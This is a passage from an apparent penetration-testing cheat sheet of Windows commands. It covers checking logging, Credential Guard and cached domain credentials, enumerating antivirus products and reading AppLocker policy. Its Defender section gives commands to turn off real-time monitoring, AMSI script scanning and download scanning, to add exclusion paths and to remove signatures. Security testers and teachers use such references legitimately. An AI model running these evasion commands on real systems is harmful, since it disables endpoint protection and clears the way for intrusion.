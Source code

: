 general application logging info:

```text
wevtutil gli Application
```

### check credential guard:

```text
reg query HKLM\System\CurrentControlSet\Control\LSA /v LsaCfgFlags
```

### check cached credentials \(domain\):

```text
reg query "HKEY_LOCAL_MACHINE\SOFTWARE\MICROSOFT\WINDOWS NT\CURRENTVERSION\WINLOGON" /v CACHEDLOGONSCOUNT
```

## check for AVs

```text
WMIC /Node:localhost /Namespace:\\root\SecurityCenter2 Path AntiVirusProduct Get displayName /Format:List | more 
```

### windows defender

if you have privileges:

```text
# check status of Defender
PS C:\> Get-MpComputerStatus

# disable scanning all downloaded files and attachments, disable AMSI (reactive)
PS C:\> Set-MpPreference -DisableRealtimeMonitoring $true; Get-MpComputerStatus
PS C:\> Set-MpPreference -DisableIOAVProtection $true

# disable AMSI (set to 0 to enable)
PS C:\> Set-MpPreference -DisableScriptScanning 1 

# exclude a folder
PS C:\> Add-MpPreference -ExclusionPath "C:\Temp"
PS C:\> Add-MpPreference -ExclusionPath "C:\Windows\Tasks"
PS C:\> Set-MpPreference -ExclusionProcess "word.exe", "vmwp.exe"

# remove signatures (if Internet connection is present, they will be downloaded again):
PS > "C:\ProgramData\Microsoft\Windows Defender\Platform\4.18.2008.9-0\MpCmdRun.exe" -RemoveDefinitions -All
```

### applocker policy

```text
Get-ApplockerPolicy -Effective -xml
Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections
$a = Get-ApplockerPolicy -effective
$a.rulecollections
```
